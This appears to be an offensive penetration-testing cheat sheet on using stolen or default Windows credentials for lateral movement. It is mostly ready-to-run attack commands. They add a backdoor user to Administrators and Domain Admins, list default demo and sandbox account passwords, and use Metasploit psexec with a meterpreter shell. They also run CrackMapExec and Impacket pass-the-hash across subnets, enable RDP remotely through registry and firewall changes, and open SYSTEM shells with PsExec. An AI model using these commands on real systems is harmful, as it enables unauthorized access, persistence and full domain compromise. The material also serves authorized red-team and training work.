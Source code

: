 # Windows - Using credentials

## TIP 1 - Create your credential :D

```powershell
net user hacker hacker1234* /add
net localgroup administrators hacker /add
net localgroup "Remote Desktop Users" hacker /add
net group "Domain Admins" hacker /add /domain
```

Some info about your user

```powershell
net user /dom
net user /domain
```

## TIP 2 - Retail Credential [@m8urnett on Twitter](https://twitter.com/m8urnett/status/1003835660380172289)

when you run Windows in retail demo mode, it creates a user named Darrin DeYoung and an admin RetailAdmin

```powershell
Username: RetailAdmin
Password: trs10
```

## TIP - Sandbox Credential - WDAGUtilityAccount - [@never_released on Twitter](https://twitter.com/never_released/status/1081569133844676608)

Starting with Windows 10 version 1709 (Fall Creators Update), it is part of Windows Defender Application Guard

```powershell
\\windowssandbox
Username: wdagutilityaccount
Password: pw123
```


## Metasploit - SMB

```c
use auxiliary/scanner/smb/smb_login  
set SMBDomain DOMAIN  
set SMBUser username
set SMBPass password
services -p 445 -R  
run
creds
```

## Metasploit - Psexec

Note: the password can be replaced by a hash to execute a `pass the hash` attack.

```c
use exploit/windows/smb/psexec
set RHOST 10.2.0.3
set SMBUser username
set SMBPass password
set PAYLOAD windows/meterpreter/bind_tcp
run
shell
```

## Crackmapexec (Integrated to Kali)

```python
git clone https://github.com/byt3bl33d3r/CrackMapExec.github
python crackmapexec.py 10.9.122.0/25 -d DOMAIN -u username -p password
python crackmapexec.py 10.10.10.10 -d DOMAIN -u username -p password -x whoami
```

## Crackmapexec (Pass The Hash)

```powershell
cme smb 172.16.157.0/24 -u administrator -H 'aad3b435b51404eeaad3b435b51404ee:5509de4ff0a6eed7048d9f4a61100e51' --local-auth
```

## Winexe (Integrated to Kali)

```python
winexe -U DOMAIN/username%password //10.10.10.10 cmd.exe
```

## Psexec.py / Smbexec.py / Wmiexec.py (Impacket)

```python
git clone https://github.com/CoreSecurity/impacket.git
python psexec.py DOMAIN/username:password@10.10.10.10
python smbexec.py DOMAIN/username:password@10.10.10.10
python wmiexec.py DOMAIN/username:password@10.10.10.10

# psexec.exe -s cmd
# switch admin user to NT Authority/System
```

## RDP Remote Desktop Protocol (Impacket)

```powershell
python rdpcheck.py DOMAIN/username:password@10.10.10.10
rdesktop -d DOMAIN -u username -p password 10.10.10.10 -g 70 -r disk:share=/home/user/myshare
rdesktop -u username -p password -g 70 -r disk:share=/tmp/myshare 10.10.10.10
# -g : the screen will take up 70% of your actual screen size
# -r disk:share : sharing a local folder during a remote desktop session 
```

Note: you may need to enable it with the following command

```powershell
reg add "HKLM\System\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0x00000000 /f
netsh firewall set service remoteadmin enable
netsh firewall set service remotedesktop enable
```

or with psexec(sysinternals)

```powershell
psexec \\machinename reg add "hklm\system\currentcontrolset\control\terminal server" /f /v fDenyTSConnections /t REG_DWORD /d 0
```

or with crackmapexec

```powershell
crackmapexec 192.168.1.100 -u Jaddmon -H 5858d47a41e40b40f294b3100bea611f -M rdp -o ACTION=enable
```

or with Metasploit

```powershell
run getgui -u admin -p 1234
```

Then log in using xfreerdp 

```powershell
xfreerdp /u:offsec /d:win2012 /pth:88a405e17c0aa5debbc9b5679753939d /v:10.0.0.1 # pass the hash works for Server 2012 R2 / Win 8.1+
 xfreerd /u:runner /v:10.0.0.1 # password will be asked
```


## Netuse (Windows)

```powershell
net use \\ordws01.cscou.lab /user:DOMAIN\username password
C$
```

## Runas (Windows - Kerberos auth)

```powershell
runas /netonly /user:DOMAIN\username "cmd.exe"
```

## PsExec (Windows - [Sysinternal](https://docs.microsoft.com/en-us/sysinternals/downloads/sysinternals-suite) )

```powershell
PsExec.exe  \\ordws01.cscou.lab -u DOMAIN\username -p password cmd.exe
PsExec.exe  \\ordws01.cscou.lab -u DOMAIN\username -p password cmd.exe -s  # get System shell
```

## References

- [Ropnop - Using credentials to own Windows boxes](https://blog.ropnop.com/using-credentials-to-own-windows-boxes/)
- [Ropnop - Using credentials to own Windows boxes Part 2](https://blog.ropnop.com/using-credentials-to-own-windows-boxes-part-2-psexec-and-services/)
- [Gaining Domain Admin from Outside Active Directory](https://markitzeroday.com/pass-the-hash/crack-map-exec/2018/03/04/da-from-outside-the-domain.html)
